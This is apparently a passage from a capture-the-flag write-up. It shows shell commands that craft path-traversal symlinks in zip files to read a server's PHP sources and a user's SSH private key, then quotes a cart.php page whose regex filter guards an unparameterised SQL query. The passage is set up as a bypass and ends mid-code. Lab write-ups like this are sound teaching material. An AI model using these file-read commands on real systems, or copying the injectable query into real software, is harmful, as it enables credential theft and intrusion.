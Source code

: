 Places I looked for php files:

```bash
ln -s ../../../../../../../../../../../var/www/html/shop/functions.php functions.pdf
zip -r --symlinks functions.zip functions.pdf

ln -s ../../../../../../../../../../../var/www/html/shop/home.php home.pdf
zip -r --symlinks home.zip home.pdf

ln -s ../../../../../../../../../../../var/www/html/upload.php upload.pdf
zip -r --symlinks upload.zip upload.pdf

ln -s ../../../../../../../../../../../var/www/html/shop/index.php shopindex.pdf
zip -r --symlinks shopindex.zip shopindex.pdf

ln -s ../../../../../../../../../../../home/rektsu/.ssh/id_rsa sshkey.pdf
zip -r --symlinks sshkey.zip sshkey.pdf

ln -s ../../../../../../../../../../../var/www/html/shop/cart.php cart.pdf
zip -r --symlinks cart.zip cart.pdf

ln -s ../../../../../../../../../../../var/www/html/shop/product.php product.pdf
zip -r --symlinks product.zip product.pdf
```

No ssh key present, I'll spare you the sifting through all of these files and show the important finding as the segue into the next part.


<h1>User as rektsu</h1>

<h2>preg_match bypass</h2>

```php
shop/cart.php

<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
```